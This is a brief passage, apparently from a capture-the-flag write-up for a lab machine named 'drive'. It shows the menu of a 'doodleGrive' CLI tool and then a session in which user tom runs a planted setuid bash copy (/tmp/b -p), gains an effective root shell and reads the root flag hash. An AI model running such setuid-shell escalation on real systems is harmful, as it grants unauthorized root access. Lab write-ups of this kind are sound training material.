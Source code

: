```bash
doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 6
exiting...
```

Getting root shell:

```bash
tom@drive:~$ /tmp/b -p
b-5.0# id
uid=1003(tom) gid=1003(tom) euid=0(root) egid=0(root) groups=0(root),1003(tom)
b-5.0# cd /root
b-5.0# ls
root.txt
b-5.0# cat root.txt
9a3c912bd957523d8b485fafde5e723c
```